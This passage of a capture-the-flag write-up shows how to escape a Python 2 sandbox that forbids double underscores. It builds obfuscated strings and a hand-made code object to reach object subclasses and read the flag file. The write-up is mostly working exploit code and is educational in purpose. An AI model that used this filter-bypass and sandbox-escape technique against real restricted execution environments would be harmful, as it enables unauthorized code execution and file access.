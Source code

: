 **Step two: the exploit**

Now, we can work on the accual exploit script. Our goal is to obtain a copy of the `file` object that allows us to read the flag.

One method is to call `().__class__.__base__.__subclasses__()[40]`; however, the server prevents us from accessing anything related to `__`.

This is when python code objects comes in. We will build a function that returns the object:

```python
def f():
  return ().__class__.__base__.__subclasses__()
```

and get all the info about the byte codes of the function:

```python
print f.func_code.co_argcount
print f.func_code.co_nlocals
print f.func_code.co_stacksize
print f.func_code.co_flags
print f.func_code.co_consts
print f.func_code.co_names
print f.func_code.co_varnames
print f.func_code.co_filename
print f.func_code.co_name
print f.func_code.co_firstlineno
print f.func_code.co_lnotab
print f.func_code.co_freevars
print f.func_code.co_cellvars
```

Now using [this](https://raw.githubusercontent.com/d4em0n/nostr/master/obfuscate_str.py) handy tool, we get a string that contain `__` which bypasses the string restriction:

```python
a=((()>[])+(()>[]));aa=(((a<<a)<<a)*a);u=('c%'[::(({}>[])-(()>[]))])*a%((aa+(((a<<a)*a)+((a<<a)+((a*a)+(a+(()>[])))))),(aa+(((a<<a)*a)+((a<<a)+((a*a)+(a+(()>[])))))))
```

add a few helper varibles, and we are done:

```python
builtins_str = globals().keys()[0]

def f(x): print x

f('a')
code = type(f.func_code)
function = type(f)

mydict = {}
mydict[builtins_str] = globals()[builtins_str]

a=((()>[])+(()>[]));aa=(((a<<a)<<a)*a);u=('c%'[::(({}>[])-(()>[]))])*a%((aa+(((a<<a)*a)+((a<<a)+((a*a)+(a+(()>[])))))),(aa+(((a<<a)*a)+((a<<a)+((a*a)+(a+(()>[])))))))
codeobj = code(0, 0, 1, 67, 'd\x01\x00j\x00\x00j\x01\x00j\x02\x00\x83\x00\x00S', (None, ()), (u+'class'+u, u+'base'+u, u+'subclasses'+u), (), 'noname', '<module>', 1, '', (), ()) 

pwn = function(codeobj, mydict, None, None, None)
pwn()
```
